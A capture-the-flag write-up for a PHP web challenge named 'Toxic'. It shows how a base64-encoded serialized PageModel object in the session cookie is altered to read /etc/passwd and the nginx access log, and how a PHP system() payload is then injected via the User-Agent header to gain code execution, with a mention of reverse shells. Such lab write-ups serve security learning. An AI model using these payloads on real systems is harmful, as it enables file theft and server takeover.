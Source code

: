 # Toxic

## Code Audit

![image-20240119164322601](./Toxic.assets/image-20240119164322601.png)

PageModel class has a file variable, while the instance is base64 encoded into PHPSESSID (controllable).

```console
$ echo 'Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9' | base64 -d
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

## Local File Inclusion

- POC: `/etc/passwd`

```console
$ echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30K
```

![image-20240119164534939](./Toxic.assets/image-20240119164534939.png)

## Log Poisoning

- use LFI to read `/var/log/nginx/access.log`

```console
$ echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNz
LmxvZyI7fQo=
```

![image-20240119164658303](./Toxic.assets/image-20240119164658303.png)

- change the content of **User-Agent** and trigger access.log to exhibit flag file, `<?= system('ls -l /');?>` (HINT=> `'` is ok, `"` is not ok)
- also, able to change User-Agent with reverse shell command to get a web shell

![image-20240119164915153](./Toxic.assets/image-20240119164915153.png)

```console
$ echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/flag_pOxsB";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2ZsYWdfcE94c0IiO30K
```

![image-20240119164943518](./Toxic.assets/image-20240119164943518.png)



